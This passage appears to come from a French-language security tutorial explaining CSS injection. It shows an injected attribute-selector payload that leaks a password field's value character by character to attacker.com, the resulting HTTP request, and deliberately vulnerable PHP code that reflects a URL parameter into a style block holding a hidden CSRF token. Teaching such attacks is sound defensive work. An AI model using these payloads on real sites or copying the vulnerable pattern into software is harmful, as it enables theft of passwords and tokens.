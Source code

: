 L'attaquant continuera son attaque en itérant sur les prochains caractères :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/css-injection-element-password.php?color=black;}input[name=password][value^=az]{background-image:url(https://attacker.com/?leak=az);}
```
{% endcode %}

{% code overflow="wrap" %}
```http
GET /?leak=az HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

### Récupération de la valeur d'un attribut d'un élément HTML de type hidden via les sélecteurs d'attribut CSS

Malheureusement, la technique précédente ne fonctionne pas sur les champs `<input>` de type `hidden`. Cela pourrait pourtant être utile dans le cas ou l'application vulnérable utilise des champs cachés pour transmettre des jetons anti-CSRF par exemple :

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <style>
      h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
  </style>
  </head>
  <body>
    <h1>Attribute selectors iframe with hidden input</h1>
    <form action="" method="POST">
        <input type="password" name="newPassword" placeholder="New Password">
        <input type="password" name="confirmNewPassword" placeholder="Confirm New Password">
        <input type="hidden" name="csrf-token" value="a5ccef6a-1f00-4a02-b16b-e4e9e517b223">
        <input type="submit" name="changePassword" value="Continue">
    </form>
  </body>
</html>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1) (1) (3).png" alt=""><figcaption></figcaption></figure>
